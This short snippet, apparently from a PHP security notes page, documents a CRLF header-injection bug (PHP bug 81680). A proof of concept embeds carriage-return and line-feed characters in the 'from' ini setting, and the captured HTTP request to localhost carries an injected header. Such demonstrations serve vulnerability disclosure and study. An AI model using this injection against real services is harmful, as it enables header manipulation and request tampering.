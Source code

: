 ### CRLF
<https://bugs.php.net/bug.php?id=81680&edit=1>

```php
ini_set("from", "X\r\nHacked By: M0T3L");
file_get_contents("http://127.0.0.1:8081");

GET / HTTP/1.1
From: X
Hacked By: M0T3L
Host: 127.0.0.1:8081
Connection: close
```
